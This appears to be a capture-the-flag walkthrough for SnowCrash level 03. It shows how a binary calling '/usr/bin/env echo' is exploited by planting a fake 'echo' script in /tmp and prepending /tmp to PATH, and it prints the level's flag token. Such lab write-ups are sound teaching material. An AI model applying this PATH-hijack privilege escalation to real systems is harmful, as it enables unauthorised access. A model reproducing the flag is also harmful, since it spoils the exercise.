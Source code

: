 # 🧊 SnowCrash - Level03 Walkthrough

## Level: 03

**Objective:** Exploit the program `level03` to retrieve the flag using `getflag`.

### 🧩 Step-by-step Solution

**1. List the files**

We start by listing the contents of the home directory:

```bash
ls
level03
```

There is a single executable file named `level03`.

**2. Inspect the binary for clues**

First we run the binary to check what it do:
```bash
./level03
Exploit me
```

Use the `strings` command to examine printable characters in the binary:

```bash
strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
```

This tells us the program runs:

```bash
/usr/bin/env echo Exploit me
```

That means it uses `env` to find and run `echo`, which we can exploit by overriding the `PATH`.

**3. Prepare a fake echo command**

- Create a malicious `echo` script in `/tmp`:

```bash
cd /tmp
echo '/bin/getflag' > echo
chmod 777 echo
```

- Confirm it’s created:

```bash
ls -la echo
-rwxrwxrwx 1 level03 level03 13 Jun 13 21:24 echo
```

**4. Override the `PATH` environment variable**

Prepend `/tmp `to the `PATH` so our fake `echo` is executed instead of the real one:

```bash
export PATH=/tmp:$PATH
printenv | grep PATH
```

✅ Output:

```bash
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

**5. Run the vulnerable binary**

Execute the `level03` binary:

```bash
./level03
```

✅ Output:

```bash
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

**🔓 Successfully moved to level04!**